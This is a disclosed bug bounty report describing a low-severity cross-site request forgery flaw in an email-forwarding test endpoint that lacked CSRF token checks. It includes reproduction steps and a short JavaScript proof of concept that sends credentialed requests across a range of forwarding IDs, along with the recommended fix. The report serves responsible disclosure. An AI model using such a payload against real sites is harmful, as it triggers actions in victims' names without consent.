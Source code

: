 # CSRF allows to test email forwarding

## Report Details
- **Report ID**: 1131473
- **URL**: https://hackerone.com/reports/1131473
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-03-23T08:10:37.413Z
- **Disclosed**: 2021-05-13T05:22:36.482Z

## Reporter
- **Username**: muon4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
## Summary:
It is possible to send email forwarding emails in the name of victim. The main problem is that you don't verify the `X-CSRF-Token` in the endpoint `/security_email_forwarding/test_forwarding.json?id=$id`. 
 

## Steps To Reproduce:

- Login as an program user who has access to the `Email Forwarding`
- Navigate to the `https://hackerone.com/hackerone_h1p_bbp3/security_email_forwarding` and add new  email here (use e.g. wearehackerone.com address)
- This will most likely fail. Atleast in our tests this used to happen
- Make the following HTML file:

```
<script>
for (i = 300; i < 350; i++){
var url = "https://hackerone.com/$program-id/security_email_forwarding/test_forwarding.json?id="+i;
var CSRF = new XMLHttpRequest();
CSRF.open("GET", url, true);
CSRF.withCredentials = 'true';
CSRF.send();
}
</script>
```

Note: set your forwarding id to be in this loop `for (i = 300; i < 350; i++){` (the purpose of this for loop is just to show that an attacker could verify all these emails). Also, set your program name to as a value of `$program-id`.

- Open this email to the new tab of the current browser 
- The email forwarding test messages will be sent

## Recommendation:

Verify that `X-CSRF-Token` which is already part of original HTTP request.

## References:

`https://owasp.org/www-community/attacks/csrf`

## Impact

CSRF allow to send email forward test messages

## Attachments
No attachments
